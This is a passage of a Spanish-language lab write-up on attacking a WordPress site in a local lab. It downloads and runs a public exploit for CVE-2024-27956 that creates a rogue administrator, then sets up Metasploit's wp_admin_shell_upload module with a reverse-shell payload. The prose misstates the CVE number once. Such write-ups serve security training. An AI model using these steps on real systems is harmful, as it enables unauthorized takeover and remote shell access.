 ```bash
 |  Login Error Messages (Aggressive Detection)
```

# Intrusión

Como vemos es vulnerable a **Unauthenticated SQL Injection** con un CVE **CVE-2024-2795**. Descargamos el siguiente exploit de github para explotar la vulnerabilidad:

```bash
$ wget https://raw.githubusercontent.com/diego-tella/CVE-2024-27956-RCE/main/exploit.py
```

Lo ejecutamos y vemos que nos crea un usuario con rol de admistrador:

```bash
python exploit.py http://172.17.0.2
[+] Exploit for CVE-2024-27956
[+] Creating user eviladmin
[+] Giving eviladmin administrator permissions
[+] Exploit completed!
[+] administrator created: eviladmin:admin
```

Ahora para obtener una shell reverse vamos a usar **Metasploit**, lo abrimos con `msfconsole`. Después vamos a usar el exploit **wp_admin_shell_upload** que sirve para subir un plugin que genera para que nos de una shell reversa. En este caso voy a usar un payload para que solo me devuelva una shell y no una sesión de meterpreter. Ejecutamos `set payload generic/shell_reverse_tcp` :

```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
```

Después vemos las opciones disponibles para que funcione el exploit con `options`:

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Settin  Required  Description
              g
   ----       --------------  --------  -----------
   PASSWORD                   yes       The WordPress passwor
                                        d to authenticate wit
                                        h
   Proxies                    no        A proxy chain of form
                                        at type:host:port[,ty
                                        pe:host:port][...]
   RHOSTS                     yes       The target host(s), s
                                        ee https://docs.metas
                                        ploit.com/docs/using-
                                        metasploit/basics/usi
                                        ng-metasploit.html
   RPORT      80              yes       The target port (TCP)
   SSL        false           no        Negotiate SSL/TLS for
                                         outgoing connections
   TARGETURI  /               yes       The base path to the
                                        wordpress application
   USERNAME                   yes       The WordPress usernam
                                        e to authenticate wit
                                        h
   VHOST                      no        HTTP server virtual h
                                        ost

```